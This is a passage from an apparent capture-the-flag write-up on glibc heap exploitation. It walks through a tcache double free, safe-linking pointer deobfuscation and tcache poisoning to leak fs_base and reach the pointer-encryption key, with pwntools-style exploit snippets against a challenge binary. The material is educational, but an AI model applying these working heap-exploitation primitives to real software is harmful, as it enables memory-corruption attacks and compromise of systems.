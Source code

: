 To do so, we perform the following. 
1. Allocate two chunks and free them both in order to have control over some tcache entries.
2. Overwrite the `tcache_entry->key` within the first chunk we freed in order to enable a double free. (otherwise it'd be detected and the binary would crash)
3. Get the base address of the chunk via deobfuscating the pointer (a tcache protection enabled in recent versions of glibc)
4. Overwrite the `tcache_entry->next` pointer within the chunk we double freed to an address we want (in this case the address that contains a pointer to `fs_base`)

It's worth noting that I subtract an offset from most of these arbitrary allocations, and that's because of either alignment (tcache chunks must be 0x10 aligned), and to avoid corruption of critical data, since the allocation will write chunk metadata also.

```python
create(10, b"")
create(9, b"")
delete(9)
delete(10) # libc chunk
update(9, b"AAAAAAAABBBBBBBB") # tcache key overwrite
delete(9)
chunk_pos = deobfuscate(u64(read(9)[:8]))
update(9, p64(obfuscate(p_fs_base-0x18, chunk_pos)))
create(11, b"")
create(12, b"") # fs_base_ptr should be in this chunk
```

Now we have a chunk that contains the ptr to `fs_base`, we do need to perform one extra step. In allocating our chunk we overwrote a critical field used by calls to `read` (most of the binary does this) and as such we need to re-write the value of 0 there. Luckily this is pretty simple:
```python
update(12, b"\x00\x00\x00\x00")
```

Finally, we can read the address of `fs_base` from this chunk!
```python
fs_base = u64(read(12)[8:16])
log.success(f"fs_base @ {hex(fs_base)}")
```
![](http://ctfnote.frogcouncil.team/pad/uploads/c3993210-f843-486c-9b2c-8e936f72c817.png)

## 4. Gaining control over the pointer encryption key

We perform the same arbitrary allocation primitive as before in order to allocate a chunk within `fs_base`.
```python
# Allocate chunk in fs_base to get encryption key
delete(8)
delete(15)
update(8, b"AAAAAAAADDDD")
delete(8)
chunk_pos = deobfuscate(u64(read(8)[:8]))
update(8, p64(obfuscate(fs_base+0x30, chunk_pos)))
create(18, b"")
create(19, b"")
```
![](http://ctfnote.frogcouncil.team/pad/uploads/838fc4ac-05a1-45f6-b96c-965cd3dffd06.png)
